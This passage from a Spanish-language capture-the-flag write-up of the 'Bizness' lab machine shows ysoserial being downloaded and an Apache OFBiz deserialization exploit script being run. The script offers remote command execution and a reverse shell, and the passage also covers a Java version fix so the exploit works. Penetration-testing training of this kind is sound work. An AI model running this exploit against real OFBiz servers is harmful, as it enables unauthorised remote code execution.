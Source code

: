 ```bash
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 59525376 (57M) [application/octet-stream]
Grabando a: «ysoserial-all.jar»

ysoserial-all.jar                                         100%[==================================================================================================================================>]  56,77M  34,8MB/s    en 1,6s    

2025-02-16 01:36:48 (34,8 MB/s) - «ysoserial-all.jar» guardado [59525376/59525376]
```

Revisaremos la sintaxis del exploit, el cual permite ejecutar comandos remotos o proporcionarnos una Reverse Shell directamente.

```bash
❯ python3 ofbiz_exploit.py -h
Usage: 
python3 ofbiz_exploit.py target_URL rce command
python3 ofbiz_exploit.py target_URL shell IP:PORT
```

Al intentar ejecutar el exploit, se nos menciona que debemos utilizar `OpenJDK-11`.

```bash
❯ python3 ofbiz_exploit.py https://bizness.htb rce id
The target appears to be vulnerable.
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Error while generating or serializing payload
java.lang.IllegalAccessError: class ysoserial.payloads.util.Gadgets (in unnamed module @0x5cad8086) cannot access class com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl (in module java.xml) because module java.xml does not export com.sun.org.apache.xalan.internal.xsltc.trax to unnamed module @0x5cad8086
	at ysoserial.payloads.util.Gadgets.createTemplatesImpl(Gadgets.java:102)
	at ysoserial.payloads.CommonsBeanutils1.getObject(CommonsBeanutils1.java:20)
	at ysoserial.GeneratePayload.main(GeneratePayload.java:34)

        Error. Try changing your current Java version to Java 11: 
sudo apt-get install openjdk-11-jdk
        
sudo update-alternatives --config java
```

Nos lo descargaremos el `.deb` a través de la página oficial de Oracle.

{% embed url="https://www.oracle.com/es/java/technologies/javase/jdk11-archive-downloads.html" %}

Configuramos nuestro equipo para que utilize la versión `JDK-11`.

```bash
❯ sudo update-alternatives --config java
Existen 4 opciones para la alternativa java (que provee /usr/bin/java).

  Selección   Ruta                                          Prioridad  Estado
------------------------------------------------------------
  0            /usr/lib/jvm/jdk-11.0.25-oracle-x64/bin/java   184754176 modo automático
  1            /usr/lib/jvm/java-11-openjdk-amd64/bin/java    1111      modo manual
* 2            /usr/lib/jvm/java-21-openjdk-amd64/bin/java    2111      modo manual
  3            /usr/lib/jvm/java-23-openjdk-amd64/bin/java    2311      modo manual
  4            /usr/lib/jvm/jdk-11.0.25-oracle-x64/bin/java   184754176 modo manual

Pulse <Intro> para mantener el valor por omisión [*] o pulse un número de selección: 0
update-alternatives: utilizando /usr/lib/jvm/jdk-11.0.25-oracle-x64/bin/java para proveer /usr/bin/java (java) en modo automático
```
